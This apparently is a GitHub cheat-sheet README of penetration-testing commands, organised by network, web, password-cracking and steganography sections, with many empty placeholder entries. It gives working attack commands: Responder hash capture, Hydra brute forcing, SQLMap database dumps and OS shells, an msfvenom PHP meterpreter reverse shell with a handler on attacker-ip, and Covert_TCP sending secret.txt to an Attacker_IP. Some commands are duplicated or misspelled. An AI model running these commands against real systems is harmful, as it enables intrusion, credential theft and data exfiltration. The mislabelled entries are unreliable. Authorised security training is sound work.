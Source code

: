 # Network Hacking

<details>
<summary>Nmap</summary>

## Nmap

* Scan for a live host

```console
nmap -sP <TARGET>
nmap -sn <TARGET>
```

* Scan for open ports

```console
nmap -p --open <port> <TARGET>
```

* OS Detection

```console
nmap -p --open <port> <TARGET>
```

* Comprehensive scan.

```console
nmap -p- --open -vv -Pn <TARGET>
```
</details>

<details>
<summary>Nmap Scripts</summary>

## Nmap Scripts

* LDAP Enumeration.

```console
nmap -p 389 --script ldap-search <TARGET>
```
</details>

<details>
<summary>NetDiscover</summary>

## NetDiscover

* Perform an ARP scan across the entire network to identify live hosts.

```console
netdiscover -i eth0
netdiscover -r <TARGET>
```
</details>

<details>
<summary>Wireshark</summary>

## Wireshark

* Wireshark offers the capability to reconstruct a stream of plain text protocol packets into a format that is easily readable by humans

```shell
select_packet > follow > TCP Stream
```

* Filter by an specific HTTP Method

```shell
http.request.method == POST
http.request.method == GET
```

* Trace a DOS/DDOS attack

```shell
# Sort by packets in IPv4 based on number of the packets transfer
Statistics > Conversations > IPv4 > Packets
```
</details>

<details>
<summary>CovertTCP</summary>

## CovertTCP

CovertTCP conceals transmission of data inside the IP header.
* [Covert_TCP](Covert_TCP.c) 

This can be used to analyze .cap files. It traverses through each line in Wireshark, targeting the identification field. Keep an eye on Hex value and ANSI value. Download and compile it.

```console
# Compiling Covert_TCP.c
cc -o covert_tcp covert_tcp.c
```

Now, specify the reciever machine (Client_IP). 

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
```

Specifying the attacker machine (Attacker_IP). Create the message file that will be need to be transfered (ex. secret.txt)

```console
sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
```
The secret message is sent using Covert_TCP nad it is then captured using Wireshark.

</details>

<details>
<summary>LLMNR/NBT-NS Poisoning</summary>

## LLMNR/NBT-NS Poisoning

The tool [Responder](https://github.com/lgandx/Responder)  servers as a rogue authentication server to capture hashes. Utilizing this method, one could obtain the password of a logged-in user who is attempting to access an unavailable shared resource.

* On Unix based systems

```console
# where -I = interface
responder -I eth0
```
On Windows, you could try to access shared resources. Logs are stored at usr/share/responder/logs/SMB. You can crack the hash using John The Ripper.

```console
john SMBfilename  
```
</details>

# System Hacking

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Android Hacking

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Password Cracking

<details>
<summary>WPScan</summary>

## WPScan

```shell
# Performs only user enumeration
wpscan --url http://example.com/ --enumerate u
```
</details>

<details>
<summary>Hydra</summary>

## Hydra

### SSH 

```shell
hydra -l username -P passwords.txt target ssh
```

### FTP

```shell
# If the service isn't running on the default port, use -s
hydra -l username -P passwords.txt ftp://target -s 221

# Use Get COMMAND to download a file
get file.txt .
```

### Telnet

```shell
hydra -l admin -P passwords.txt -o test.txt target telnet
```

</details>

# Web Hacking

<details>
<summary>NSLookup</summary>

## NSLookup

You can use NSLookup to find the IP Address of a website.

```console
nslookup www.example.com
```
</details>

<details>
<summary>Banner Grabbing</summary>

## Telnet

```console
telnet www.moviescope.com 80

# Double enter
GET / HTTP/1.0
```

## whatweb

```console
# Default banner grabbing
whatweb www.example.com

# Verbose grabbing
whatweb -v www.example.com
```

## OpenSSL

You can perform banner grabbing over SSL using OpenSSL.

```console
# Install OpenSSL
sudo apt install openssl -y
openssl
s_client –host www.example.com -port 443
GET/HTTP/1.0
```

## Curl

```console
# HTTP Get request from a proxy
curl -x <proxy_IP>:8080 http://localhost/
```
</details>

<details>
<summary>Local File Inclusion</summary>

## Local File Inclusion

Create an PHP payload using msfvenom

```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attacker-port -f raw
```

Create the Reverse Shell with Metasploit

```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```

</details>

<details>
<summary>Web Spidering</summary>

## zaproxy

You can perform web spidering using zaproxy.

```shell
Automated Scan > http://www.example.com > Attack > Active Scan > Spider Tab > Alerts > Spider > Messages
```
</details>

<details>
<summary>Burpsuite</summary>

## Brute Forcing with Burpsuite

* You can perform a brute force attack using Burpsuite. 

```shell
# First, set up the Proxy.
Firefox Preferences > Proxy > Settings > Manual Proxy > 127.0.0.1 and Port 8080 > Check "Also use this proxy for FTP and HTTPS" > Ok

# Then fire up Burpsuite
Proxy > "Intercept On" > Switch to Firefox -> Go to the target website > Enter Random Credentials > Switch to Burpsuite

# Setting the payloads
Right click > Send to intruder > Intruder > Positions > Clear  > Cluster bomb under Attack type

# Username and password payload
Select the username > Add Payload > Select the Password > Add Payload

# Go to the payload tab
Payloads Tab > Payload set: 1 and type: Simple list 

# Under Payload options
Load > Select a wordlist like username.txt

# Do the same for the password
Payload set: 2 and type: Simple list > Under Payload options > Load > Select a wordlist like password.txt > Start attack
```

When finished, look at the status code of every attempt. 

</details>

<details>
<summary>SQLMap</summary>

## SQLMap

* List databases

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --dbs
```

* Alternative

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; --data="id=1&Submit=Submit" --dbs  
```

* Listing tables of a database name

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --columns
```

* Listing the columns of such table

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name --tables
```

* Dump data

```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; -D database_name -T target_Table --dump
```

* Setting OS Shell

```console
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie="Cookie"; ui-tabs-1=0 --os-shell
```

</details>

<details>
<summary>DLSS</summary>

## DLSS

Damn Small SQLi Scanner (DSSS) is a comprehensive tool designed for detecting SQL injection vulnerabilities. It is fully functional and capable of scanning both GET and POST parameters. Regarding optional configurations, it provides support for HTTP proxy along with HTTP header values such as User-Agent, Referer, and Cookie.

```console
python3 dsss.py -u "URL" --cookie="cookie"

# Then open the generated URL

```
</details>

# Steganography

<details>
<summary>Snow</summary>

## Snow

* Hide text

```console
snow.exe -c -p test -m "Secret Message" original.txt hide.txt
```

* Unhide text

```console
snow.exe -c -p test hide.txt
```

</details>

<details>
<summary>HashCalc</summary>

## HashCalc

* When opening the file, ensure MD5, SHA1, RIPEMD160 and CRC32 are selected. Then compare the hash after modiying the file.

</details>

<details>
<summary>CrypTool</summary>

## CrypTool

* Data encryption with CrypTool.

```shell
# Encrypting file
File > New > Enter text > Encrypt > Symmetric (Modern) > RC2 > KEY 05 -> Encrypt

# Decrypting
File > Open > Decrypt > Symmetric (Modern) > RC2 > KEY 05 > Decrypt
```
</details>

<details>
<summary>HashMyFile</summary>

## HashMyFile

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>MD5 Calculator</summary>

## MD5 Calculator

* Integrates with file explore. Right click any file and select MD5 Calculator to calculate its MD5 Hash.

```console
# And some code
whoami
```
</details>

<details>
<summary>VeraCrypt</summary>

## VeraCrypt

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>BCTextEncoded</summary>

## BCTextEncoded

* Simple GUI, enter the text and encode it using a password.

</details>

<details>
<summary>Keywords</summary>

## Keywords

* Image hidden > OpenStego
* File .hex > CrypTool
* Whitespace > Snow
* MD5 > HashCalc & MD5 Calculator
* Volume & Mount > VeraCrypt

</details>

<details>
<summary>CryptoForge</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

<details>
<summary>Hacking Tool</summary>

## Hacking Tool

* Add a brief description.

```console
# And some code
whoami
```
</details>

# Transfering Files

<details>
<summary>Apache</summary>

## Hacking Tool

* You can transfer local payloads to Windows using this way.

```shell
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
service apache2 start 
service apache2 status
```

* Then to download open a browser

```console
attacker_ip/share
```

* Windows to Linux > File System > Network > smb//Windows_IP

</details>

<details>
<summary>SimpleHTTPServer</summary>

## SimpleHTTPServer

* Starts a simple HTTP server for file sharing

```shell
python -m SimpleHTTPServer
```
</details>

## Extra Resources

<details>
<summary>Resources</summary>

## Resources

* Add a brief description.

```console
# And some code
whoami
```
</details>

